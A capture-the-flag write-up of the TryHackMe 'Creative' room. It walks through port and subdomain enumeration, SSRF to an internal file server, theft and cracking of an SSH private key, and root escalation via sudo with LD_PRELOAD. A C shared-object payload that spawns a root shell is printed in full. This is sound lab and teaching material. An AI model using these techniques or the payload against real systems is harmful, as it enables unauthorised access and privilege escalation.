

# Creative

This room is a red challenge which is tagged in the categories **Linux and Web**. The description tells us to exploit the vulnerable web application and some misconfigurations to gain root privileges.

## Recon

We start by doing a normal port scan with Nmap and find 2 open ports, **SSH on port 22** and **HTTP on port 80** as is the usual in this kind of challenges. I will leave an all port scan so we can find if there's something open on the ports that aren't in the top 1000.

```
sudo nmap -T4 -sVC 10.10.94.69    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 14:24 EEST
Nmap scan report for 10.10.94.69
Host is up (0.058s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:d1:1c:d4:ae:b4:c5:26:d9:8c:08:80:fe:12:09:01 (RSA)
|   256 45:fc:56:e7:7d:a8:af:06:94:4a:3d:16:66:81:af:73 (ECDSA)
|_  256 84:99:1b:25:0e:da:5b:62:42:99:b2:0e:7e:bc:00:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.45 seconds
```

We will start by adding creative.thm in our /etc/hosts file and try and access the page on our browser to see how the page is looking. We are being greeted by a page that seems to be presenting a business.


I will navigate the page manually to see if I find anything interesting and at the same time I'll be doing a dirsearch to see if there are any hidden pages that we would be interested in:

```
dirsearch -u http://creative.thm/ -r -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 29999

Output File: /home/piscu/random/reports/http_creative.thm/__25-07-27_14-32-01.txt

Target: http://creative.thm/

[14:32:01] Starting: 
[14:32:03] 301 -  178B  - /assets  ->  http://creative.thm/assets/
Added to the queue: assets/

[14:34:46] Starting: assets/
[14:34:47] 301 -  178B  - /assets/js  ->  http://creative.thm/assets/js/
Added to the queue: assets/js/
[14:34:47] 301 -  178B  - /assets/css  ->  http://creative.thm/assets/css/
Added to the queue: assets/css/
[14:34:49] 301 -  178B  - /assets/imgs  ->  http://creative.thm/assets/imgs/
Added to the queue: assets/imgs/
[14:34:52] 301 -  178B  - /assets/vendors  ->  http://creative.thm/assets/vendors/
Added to the queue: assets/vendors/

[14:37:08] Starting: assets/js/

[14:39:32] Starting: assets/css/

[14:42:05] Starting: assets/imgs/

[14:44:27] Starting: assets/vendors/
[14:44:30] 301 -  178B  - /assets/vendors/jquery  ->  http://creative.thm/assets/vendors/jquery/
Added to the queue: assets/vendors/jquery/

[14:46:46] Starting: assets/vendors/jquery/

Task Completed
```

We didn't really find anything interesting at the first glance on the site, neither on the dirsearch I've just done. All the /assets/ pages just give 403 Forbidden when you try to search for something. There is another page named components.html that doesn't have anything interesting, just templates for the website.


One of the things that made me curious on this page is in the "About Us" section which has a clickable link redirecting you to the "developers" of the page:


This page when you enter it presents you a lot of articles about Node.js and especially some about the vulnerabilities that can be found in those types of apps, **this could be a huge hint for us.**


While I look through the articles I will start to enumerate subdomains because these pages don't really seem that helpful at this point.

It seems like we were **successful** in our subdomain enumeration because we found another one for our machine!

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://creative.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 62ms]
:: Progress: [114441/114441] :: Job [1/1] :: 694 req/sec :: Duration: [0:02:56] :: Errors: 0 ::
```

We add it to our /etc/hosts file and look up the page to see what it has for us. It seems like the page is a "Beta URL Tester" which provides functionality to provide an URL and see if the page is alive or not. Maybe this has something to do with the article from the DevCRUD website that we saw at the beggining? The most obvious one in my opinion is the article about spawn, exec, fork and execFile commands, which execute external commands/files.


## Exploiting

This is the source code for the beta application and we see all the JS scripts are server-sided.

```
<!DOCTYPE html>
<html>
<head>
  <title>URL Tester</title>
  <link rel="stylesheet" type="text/css" href="css/style.css">
</head>
<body>
  <div class="container">
    <h1>Beta URL Tester</h1>
    <p>This page provides the functionality that allows you to test a URL to see if it is alive. Enter a URL in the form below and click "Submit" to test it.</p>
    <form action="/" method="POST">
      <label for="url">Enter URL:</label>
      <input type="text" id="url" name="url" placeholder="http://example.com">
      <input type="submit" value="Submit">
    </form>
  </div>
</body>
</html>
```

We need to firstly test the functionality and see how it interprets everything we seend by the form. I tried sending http://creative.thm and see what the website tells us. It just shows us the raw HTML page:


I tried it on my IP and I see it just returns a listing of the directory I start the HTTP server so it's a good sign. I'll start by looking if there are any other ports open on that machine that we couldn't see prior to this. I've seen this works just reading files of my HTTP server so I can't send anything there that would be helpful to get us more information for this machine, maybe if we find an FTP or other port that could serve as some disclosure for us.

We send the POST request to ffuf and **we see something interesting!**


Port 1337 is open! Let's see how the server reacts when we send this request to the site.


We can see a directory listing for a root folder of the machine possibly. Let's see if we can find anything interesting here. We start by listing the /etc/passwd file:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin saad:x:1000:1000:saad:/home/saad:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash 
```

This is the results we get, we can see we have 2 users with home folders on this machine. Next we go to the home folders and see if there are any visible files that can get us some info to get us into the machine.


In saad's home folder we can see in the .ssh folder we successfully get a **private key that can get us into the machine as saad!** We start by copying it into our machine, changing the perms of the file and trying to connect with it on port 22.


When we try to connect it asks us for a passphrase, but it's not really a big deal. Maybe it's something weak that john can successfully crack easily.

It doesn't really take a long time and **we get something back!**

```
john johnrsa --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
redacted        (idrsa)     
1g 0:00:00:20 DONE (2025-07-28 15:08) 0.04899g/s 47.03p/s 47.03c/s 47.03C/s wesley..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Privilege Escalation

We use this passphrase and we're successfuly connected to the SSH! We start by getting the user.txt flag.


I start by trying sudo -l and seeing if the password for his account is reused from the passphrase from SSH, but we're unsuccessful in that attempt. While looking more thoroughly through his home directory, I decide to read his .bash_history file, and what can we see, **saad stored his credentials in a .txt file and then removed them!**



We successfully use sudo -l and we see that we can run the ping command as sudo. This isn't really a binary that can get us root, but, it will surely help us, because we have this as well!

```
env_keep+=LD_PRELOAD
```

We'll create a malicious .so file that spawns a shell, then preload it via LD_PRELOAD when running ping with sudo.

I will use this root.c file to create the .so file that will hopefully get us root.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setuid(0); setgid(0);
    system("/bin/bash");
}
```

We compile it on our machine, start a HTTP server with python in our directory and use wget to get the root.so file from our machine. Then we will use the sudo ping command in combination with the LD_PRELOAD=./root.so file and **we successfully get the root shell we were striving for!**


The privilege escalation part of the room was in my opinion considerably easier than the initial vulnerability that got us into the machine, but it was a really fun room. Big shout out to the creator of the room **ssaadakhtarr** and to TryHackMe for providing us these fun challenges.

